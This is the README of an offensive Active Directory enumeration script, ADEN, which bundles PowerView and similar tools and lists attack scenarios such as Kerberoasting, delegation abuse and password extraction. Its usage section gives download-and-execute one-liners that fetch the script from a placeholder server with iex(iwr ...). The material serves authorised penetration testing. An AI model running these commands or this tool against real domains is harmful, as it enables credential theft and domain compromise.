 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL
- New-GPOImmediateTask


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
If you are not a local admin in the domain, the function ```Invoke-FullEnum``` is the recommended option as it will launch a full enumeration that will allow you to map the environment.\
\
From a local admin user, the function ```Invoke-AdminEnum``` is recommended as it will launch only the relevant enumeration checks for local admins.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- Linked MSSQL Instances Abuse
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration
- Recursive search of privileged groups

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers, OUs
- Readable Shares
